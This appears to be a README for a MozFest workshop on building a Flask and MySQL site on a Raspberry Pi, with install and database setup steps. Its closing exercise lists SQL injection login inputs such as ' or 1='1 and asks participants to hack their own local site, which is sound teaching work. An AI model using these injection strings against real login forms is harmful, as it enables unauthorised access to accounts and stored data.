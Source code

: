 ## Designing your own website and running it on a raspberry pi:
### What cybersecurity tools do you need to consider?
Low cost software and hardware creates the opportunity to bring empowering technology to people with low-budget. In this project I hope the people  learn to install an operating system and the software needed to design a website using a raspberry pi. Prototyped source code to design the website will be tested in advance to be re-used during the session. The structure of the code will be modular and flexible to incorporate people ideas.

We expect that the audience take this exercise as a initial step to think about how to create secure websites and which tools exist to prevent hacks.  After having an introduction to the vulnerabilities of  websites we could discuss how sites with sensitive data protect themselves in the cyberspace.

### Project tools: Python v3, Flask and MYSQL


### Raspberry Pi project
Raspberry Pi  is a small and affordable computer that you can use to learn programming. \
https://www.raspberrypi.org/

### Flask project 
Flask is a Python web framework built with a small core and easy-to-extend philosophy. \
http://flask.pocoo.org/

#### Tutorial to create a webserver with Flask, code explained step by step: 
https://www.youtube.com/watch?v=zRwy8gtgJ1A

#### Visit this Github repository to download the code for the Flask application: 
Developer site: https://github.com/bradtraversy/myflaskapp
Code edited: https://github.com/cihernand/myflaskapp

#### Virtual enviroment explanation 
https://www.youtube.com/watch?v=N5vscPTWKOk

#### Installation requirements:

##### 1. You may need to install the Python and MySQL development headers and libraries like so: 

``` console
sudo apt-get install python3-dev 
sudo apt-get install  libmysqlclient-dev  mysql-server 
```

##### 2. Install Virtual Environment 
```sh
sudo apt install virtualenv 
Create Virtual Environment 
virtualenv   myapp  -p [insert path to python3] 
```

##### Activate Virtual Environment 

```sh
source myapp/bin/activate
```

###### Install Flask and MySQL python modules 

```sh
pip install Flask 
pip install mysql-python 
pip install mysqlclient 
pip install flask-mysqldb

```

###### Install Forms and Hashing passwords python modules 

```sh

pip install wtforms 
pip install passlib 
pip install --upgrade setuptools 
pip freeze > requirements.txt

```

## Commands to run the application

##### Access MySQL & create the database for the website 

```sh
mysql -u [insert username] -p [insert password]
```

```mysql

SHOW DATABASES;
CREATE DATABASE myflaskapp;
USE myflaskapp;
CREATE TABLE users( id INT(11) AUTO_INCREMENT PRIMARY KEY,
name VARCHAR(100), email VARCHAR (100) ,username VARCHAR(30), password VARCHAR (100),
register_date TIMESTAMP DEFAULT CURRENT_TIMESTAMP);

SHOW TABLES;
DESCRIBE users;

CREATE TABLE articles( id INT(11) AUTO_INCREMENT PRIMARY KEY,
title VARCHAR(255), author VARCHAR (100) , body TEXT,
create_date TIMESTAMP DEFAULT CURRENT_TIMESTAMP);

SHOW TABLES;

```

##### Change Python Code app.py with your MySQL credentials

```python

app.config['MYSQL_HOST'] = 'localhost' 
app.config['MYSQL_USER'] = 'INSERT YOUR MYSQL USERNAME HERE' 
app.config['MYSQL_PASSWORD'] = 'INSERT YOUR MYSQL PASSWORD HERE'

```

##### Run Flask application 

```sh
python app.py 

```

##### Open your web-browser with the following URL
 http://127.0.0.1:5000/ 

##### SQL injections tutorial 
https://www.go4expert.com/articles/complete-mysql-injection-newbies-t20438/

### MOZFEST EXERCISE
#### TEST THE FOLLOWING QUERIES TO THE DATABASE  
##### What will be the output of the following MYSQL query?

```mysql
# SELECT DATABASE NAME
USE myflaskapp;

# GET MYSQL VERSION 
SELECT @@version;

# TEST EXAMPLE INJECTION INSIDE MYSQL
SELECT * from  users WHERE username='a' or 1=1; -- AND password=''
SELECT * from users  WHERE username='a' or 1=1;

```

##### How  can you insert a username using the webserver that executes the code from above?
[Hints:]

```sh
username:' or 1='1  password:' or 1='1
username:' or '1'='1'  password:' or '1'='1'
username:or 1=1  password:or 1=1

```

### MOZFEST SESSION CHALLENGES
Identify the flask modules that remove special characters from the MYSQL injection. \
Identify what do passlib and sha256_crypt do with the passwords from the users. \
Hack the site. \




